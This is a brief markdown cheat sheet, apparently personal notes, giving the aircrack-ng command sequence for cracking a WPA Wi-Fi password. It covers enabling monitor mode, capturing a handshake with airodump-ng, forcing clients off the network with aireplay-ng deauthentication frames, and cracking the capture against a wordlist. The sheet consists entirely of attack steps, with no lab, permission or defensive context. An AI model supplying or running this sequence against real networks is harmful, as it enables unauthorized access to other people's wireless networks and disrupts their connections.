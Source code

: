 #10122015

###**WPA**

###Steps/Commands

**Window 1**
* iwconfig
* service network-manager stop
* airmon-ng start "INTERFACE"
* airodump-ng mon0
* airodump-ng --bssid "BSSID" -c "Channel" --showack -w wpa_log "INTERFACE"

**New window **
* aireplay-ng -0 20 -a "BSSID" -c "STATION" "INTERFACE" 
* ctrl c
* clear
* aircrack-ng wpa_log-01.cap -w "Road to file"

